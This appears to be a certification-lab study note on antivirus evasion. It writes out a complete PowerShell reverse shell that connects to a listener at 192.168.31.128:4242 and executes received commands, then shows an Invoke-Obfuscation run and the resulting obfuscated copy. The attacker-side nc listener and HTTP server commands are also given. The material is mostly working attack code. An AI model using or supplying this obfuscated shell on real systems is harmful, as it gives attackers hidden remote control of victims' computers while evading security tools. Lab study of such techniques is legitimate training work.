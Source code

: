 * Create the reverse PowerShell script in a new file
  * PowerShell Reverse Shell code will be

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano shell.ps1
```

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* Back in `Invoke-Obfuscation`

```bash
SET SCRIPTPATH /home/kali/certs/ejpt/AVBypass/shell.ps1
AST
ALL
1
```

* Obfuscated code is:

```bash
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano obfuscated.ps1
```

```bash
# Attacker VM another terminal
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

nc -nvlp 4242
```

* Run the `obfuscated.ps1` file on the Win10 VM
* Back on the Kali VM check the PowerShell reverse shell
